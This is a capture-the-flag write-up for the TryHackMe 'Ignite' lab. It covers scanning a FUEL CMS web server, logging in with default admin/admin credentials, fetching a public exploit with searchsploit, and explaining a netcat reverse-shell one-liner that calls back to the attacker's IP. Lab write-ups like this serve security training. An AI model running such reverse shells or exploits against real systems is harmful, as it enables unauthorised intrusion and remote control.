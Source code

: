 ```yaml
---
title: TryHackMe - Ignite
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc,http, gobuster, searchsploit ]
image:
    path: /assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/0.png
    alt: Ignite
---
```


# Ignite

A new start-up has a few issues with their web server.  

# Tasks
Read User.txt and Root.txt  

# nmap
## ip `10.10.48.179`

## Command 
```sh
nmap -sV -sC -A -v 10.10.48.179
```
## Results

```sh
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  


## gobuster

```sh
gobuster dir -u http://10.10.48.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/1.png)

## The site
Visiting the site i get a welcome page.  
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/2.png)

In the welcome page we are redirected to another directory 
	`http://$ip/fuel`  
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/3.png)  
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/4.png)

login details:  
user name `admin`  
password  `admin`

![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/5.png)

Now we look for a vector point where we can enumerate and get something to work with.  


Navigating to `assets/upload`  
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/6.png)

Here we can connect a reverse shell if possible but its worth a try.  
So i got a reverse shell.php.

Then uploaded it.  
But kept on receiving some errors so resulted to finding other means.  

# searchsploit

## Command 
```sh
	 searchsploit fuel
```
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/7.png)

Downloaded the exploit to my machine.  
```sh
	searchsploit -m 47138.py
```
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/8.png)

Tried modifying the exploit but no luck.  
Not sure how to go about this ???  


But after some research i got the shell.  
This is after removing some default lines on the code.  

```sh
nc -nlvp 1337
```
![](/assets/img/try%20hack%20me%20/Easy/try%20hack%20me%20/Easy/Ignite/9.png)


- Now that we have our local listener set up we can use netcat on the remote target to push a shell back to us.  
- To do this we need to chain a few different commands together, it can be a little confusing but we are going to break it up and explain each component.  

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.6.159 1337 >/tmp/f
```
- `rm /tmp/f ;` removes any pre-existing directory called `/tmp/f`, the semicolon ends the command similar to hitting the ENTER key.  
- `mkfifo /tmp/f ;` creates a named pipe at the location `/tmp/f`, semicolon ends the command  
- `cat /tmp/f |` displays the contents of `/tmp/f` and pipes the results into the next command  
- `/bin/sh -i 2>&1 | ` invokes the default shell binary, the ‘-i’ tells it to use interactive mode, redirect stderr2 to the same destination as stdout1, and pipe that to the next command.  
- `nc 10.8.6.159 1337 >/tmp/f ` tell netcat to connect to the remote IP and PORT and redirect that output to the named pipe  
Here is a link to a site that may help with understanding the commands [explain shell](https://explainshell.com/explain?cmd=rm+%2Ftmp%2Ff+%3B+mkfifo+%2Ftmp%2Ff+%3B+cat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+10.8.6.159+1337+%3E%2Ftmp%2Ff)



